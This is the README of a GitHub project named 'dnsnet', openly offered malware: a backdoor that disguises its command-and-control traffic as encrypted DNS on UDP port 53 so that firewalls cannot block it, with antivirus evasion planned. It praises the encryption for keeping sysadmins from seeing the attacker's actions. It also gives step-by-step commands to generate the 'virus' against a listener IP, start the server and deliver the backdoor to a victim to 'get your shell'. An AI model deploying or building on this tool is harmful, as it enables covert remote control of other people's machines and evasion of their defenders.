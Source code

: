 # dnsnet


# Current Version: Alpha

# Logo:
![box](https://user-images.githubusercontent.com/72181445/155982020-2db1333f-74b7-4c3f-8178-f14a75a0a65d.png)

# Description:
DNSNET Is a backdoor that uses encrypted "dns" to communicate with the command & control server.


DNSNET Uses udp port 53 to make itself look like dns traffic, this means that firewalls can't block this port (without losing dns rsolving) and i will be adding av evasion.

# "But why encrypted?" Answer:
If someone notices your actions, the sysadmin or whatever can't see what you were trying to do so your opsec will not be compromised

# Update log:
Alpha: 10 times encryption and stabile server end

# In dev?: YES, This is the only project im working on currently

# How to use (REPLACE "Listener ip" with the c2 ip):
git clone https://github.com/R00tendo/dnsnet

cd dnsnet

apt install unrar

unrar e cryptography.rar

pip3 install termcolor

python3 key_generator.py 5 > keys

python3 virus_generator.py <Listener ip>

python3 server.py

and send the backdoor directory and get your shell
  
# Technical Details:
Encryption: Fernet 32bit encryption (that times the keys)
 
